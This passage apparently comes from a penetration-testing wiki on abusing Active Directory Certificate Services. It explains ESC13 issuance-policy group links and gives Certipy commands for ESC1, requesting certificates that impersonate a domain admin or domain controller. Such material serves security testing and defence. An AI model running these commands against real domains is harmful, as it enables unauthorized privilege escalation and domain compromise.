 An issuance policy can be set up by a company, for example, for access control: a system can require a user to present a certificate with a given policy in order to guarantee that the system only grants access to authorised users. Issuing policies are `msPKI-Enterprise-Oid` objects found in the PKI OID container (`CN=OID,CN=Public Key Services,CN=Services`, in the Configuration Naming Context).

This object has an `msDS-OIDToGroupLink` attribute which allows a policy to be linked to an AD group so that a system can authorise a user presenting the certificate as if he were a member of this group. As explained by [Jonas Bülow Knudsen](https://twitter.com/Jonas_B_K) in [his ADCS ESC13 article](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53).

> If you perform client authentication with the certificate, then you will receive an access token specifying the membership of this group.
> 
> ([specterops.io](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53))

## Practice

### (ESC1) Template allows SAN 

When a certificate template allows to specify a `subjectAltName`, it is possible to request a certificate for another user. It can be used for privileges escalation if the EKU specifies `Client Authentication` or `ANY`.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC1 and ESC2 scenarios. 

Once a vulnerable template is found ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate.

```bash
#To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```

> [!WARNING]
> The `$ADCS_HOST` target must be a FQDN (not an IP).

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.
